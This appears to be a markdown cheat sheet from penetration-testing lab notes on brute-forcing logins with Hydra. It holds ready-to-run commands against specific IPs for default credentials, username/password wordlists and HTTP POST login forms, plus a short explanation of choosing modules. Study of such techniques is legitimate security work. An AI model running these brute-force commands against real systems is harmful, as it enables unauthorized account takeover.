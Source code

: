 # Login Attacks
## Default Passwords
```bash
$ hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /
```

## Username/Password Attack
```bash
$ hydra -L /usr/share/wordlists/secLists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
```

## Username Brute Force
```bash
$ hydra -L /usr/share/wordlists/secLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /
```

## Brute Forcing Forms
In this situation there are only two types of http modules interesting for us:

- `http[s]-{head|get|post}`
- `http[s]-post-form`
The 1st module serves for basic HTTP authentication, while the 2nd module is used for login forms, like .php or .aspx and others.

To decide which module we need, we have to determine whether the web application uses GET or a POST form. We can test it by trying to log in and pay attention to the URL. If we recognize that any of our input was pasted into the URL, the web application uses a GET form. Otherwise, it uses a POST form.


```bash
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

- First: url
- Second: parameters to POST
- Third: form name

